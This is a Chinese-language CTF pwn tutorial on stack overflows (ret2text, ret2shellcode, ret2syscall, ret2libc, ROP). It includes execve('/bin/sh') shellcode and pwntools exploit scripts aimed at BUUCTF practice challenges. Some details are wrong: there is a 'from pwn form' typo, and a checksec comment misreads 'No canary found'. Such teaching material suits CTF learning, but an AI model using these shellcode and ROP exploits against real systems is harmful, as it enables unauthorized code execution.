



# 前置知识

ELF文件结构：熟悉二进制文件结构，[参考](https://ctf-wiki.org/executable/elf/structure/basic-info/)

IDA的使用：进行反汇编逆向分析程序

python的pwntools库：熟悉python并能编写利用脚本

系统和编译提供保护：ASLR、PIE、NX、Canary、RELRO

## Pwn的主要漏洞

### 栈溢出

#### ret2text

原理：通过溢出，对返回地址进行劫持，来获取shell

关键函数gets,read以及读取对应的字节，是否超出定义变量的字节

例子：源代码的视角中溢出的样子

```c
#include<stdio.h>
int main(){
	char str[8];
  gets(str);	//由于gets函数缺陷，可以输入超出缓冲区的数据大小，进而覆盖掉返回地址
  return 0;
}
```

exp类似这样

```python
from pwn form *
#p = process('./pwn')
p = remote('node.buuoj.cn',8888)
payload = cyclic(0x8+0x8) + p64(0x12345678)  #返回地址
p.sendline(payload)
p.interactive()
```

#### ret2shellcode

原理：当没有开启NX保护时，栈是可以被执行的，利用栈溢出，来实现劫持返回地址，返回到准备好的shellcode来进行取shell

##### 手写shellcode

得根据实际情况去写shellcode

例子：

```
32位：
  xor eax,eax
  xor ebx,ebx
  xor edx,edx
  xor ecx,ecx
  push edx
  push 0x68732f2f
  push 0x6e69622f 
  mov ebx,esp
  mov al,0xB
  int 0x80
  
64位：
  xor rdx, rdx     
  xor rsi, rsi
  mov rbx, 0x68732f2f6e69622f  
  push rbx
  push rsp 
  pop rdi                       
  push 0x3b
  pop rax
  syscall
```

##### 工具写shellcode

在 pwntools 中，shellcraft 模块用于生成各种类型的 shellcode，例如反弹 shell、执行系统调用等。

```python
shellcraft.sh()	#默认生成的shellcode是32位的
shellcraft.amd64.sh()	#生成64位的
asm(shellcraft.sh())	#把shellcode转成机器码
#例子
shellcode = asm(shellcraft.sh())
```

32位exp，题目来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ez_pz_hackover_2016)

```python
from pwn import *
context(os="linux",arch="i386",log_level="debug")
p=remote('node5.buuoj.cn',27809)
#p=process('./ez_pz_hackover_2016')
p.recvuntil("0x")
stack=int(p.recv(8),16)
print(hex(stack))
p.recvuntil(b"> ")
# gdb.attach(p)
shellcode=asm(shellcraft.sh())
payload=flat(b'crashme\x00',b'a'*(0x16-0x4),p32(stack-0x1c),shellcode)
p.sendline(payload)
p.interactive()
```

#### ret2syscall

原理：通过ROP执行系统调用，利用系统调用来执行"/bin/sh"来拿shell

当程序没有system函数时，需要利用ROP，来执行执行execve("/bin/sh",null,null)，32位为int 0x80，64位为syscall ret

```bash
32位下：
  系统调用号，即 eax 应该为 0xb #64位是0x3b
  第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
  第二个参数，即 ecx 应该为 0
  第三个参数，即 edx 应该为 0
```

例子：来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ciscn_2019_ne_5)该题是存在system函数，和"/bin/sh"，只需要把他们rop起来就行

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
#p=remote('node5.buuoj.cn',26132)
p=process('./ciscn_2019_ne_5')
elf=ELF('./ciscn_2019_ne_5')
system_addr=elf.sym['system']
sh_addr=0x80482ea
payload=b'A'*(0x48+0x4)+p32(system_addr)+p32(0x12345678)+p32(sh_addr)#由于利用printf()来执行所以填充的地址不能有\x00，所以是0x12345678
#gdb.attach(p)
#print(hex(system_addr))
p.sendlineafter('password:',b'administrator')
p.sendlineafter('Exit\n:',b'1')
p.sendlineafter('info:',payload)
p.sendlineafter('Exit\n:',b'4')
p.interactive()
```

#### ret2libc

原理：利用栈溢出漏洞，劫持返回地址，利用程序已链接库中的函数，来进行取shell不需要注入自定义的 shellcode 或者系统调用指令。需要了解libc和延迟绑定，了解ELF执行后，第一次调用函数，会实现一个延迟绑定当函数没system和"/bin/sh"时，就需要调用libc里面的，首先**找到libc的基地址**，通过已知函数的地址，输出在libc中的地址，来计算基地址

当程序没有可利用函数时，而且开启了NX栈不可执行时，就考虑打libc

工具：glibc-all-in-one

例子：来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ciscn_2019_en_2)

exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
p=remote('node5.buuoj.cn',29969)
#p=process('./ciscn_2019_en_2')
elf=ELF('./ciscn_2019_en_2')
pop_rdi=0x400c83
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
main_addr=elf.sym['main']
ret_addr=0x4006b9

p.sendlineafter('choice!\n',b'1')
payload1= flat(b'\x00',b'A'*0x57,p64(pop_rdi),p64(puts_got),p64(puts_plt),p64(main_addr))
p.sendlineafter('encrypted\n',payload1)
puts_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

print(hex(puts_addr))
libc=LibcSearcher('puts',puts_addr)
base=puts_addr-libc.dump('puts')
print(hex(base))
system_addr=base+libc.dump('system')
bin_sh=base+libc.dump('str_bin_sh')
p.sendlineafter('choice!\n',b'1')

payload2=flat(b'\x00',b'A'*0x57,p64(ret_addr),p64(pop_rdi),p64(bin_sh),p64(system_addr))
p.sendlineafter('encrypted\n',payload2)
p.interactive()
```

#### ROP技巧等

工具：ROPgadget

```bash
ROPgadget --binary pwn1 --only "pop|ret" #找到pop链
```


### 堆溢出

### 整数溢出

### 格式化字符串

## 解题流程

### 1.检查二进制开启的保护

比赛的时候，主办方会给到一道pwn的服务器，找到相对于的二进制文件，然后拷贝一份单独拿出来分析

工具：checksec（需要Linux环境）

```bash
sudo apt install checksec #安装checksec工具
checksec pwn

    arch:amd64-64-little  #指64位小端存储
    relro:Full RELRO  #指重定位段只读全开
    stack:No canary found  #指栈溢出保护开启
    NX:NX enabled  #指栈不可执行
    PIE:No PIE  #每次内存地址空间不随机
```


### 2.IDA反汇编分析程序

把程序拖进IDA，F5快捷键进行自动反汇编，注意是32位还是64位

工具：IDA



找到main函数，char s[15]定义了15个字节，gets是重点关注函数，这个函数可以接收无限的长度，导致栈溢出，造成溢出并覆盖返回地址，需要溢出0xf+0x8个字节



左边main函数下方有个fun函数，发现是程序写好的一个shell函数，我们想办法在main函数中调用fun，fun函数地址是0x401186



### 利用python编写exp

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
#p = process('./pwn1')  指本地程序
p = remote('node5.buuoj.cn',26790)
payload = b'a' * (0xf+0x8) + p64(0x401186 + 1) # +1是为了堆栈平衡
p.sendline(payload)
p.interactive()
```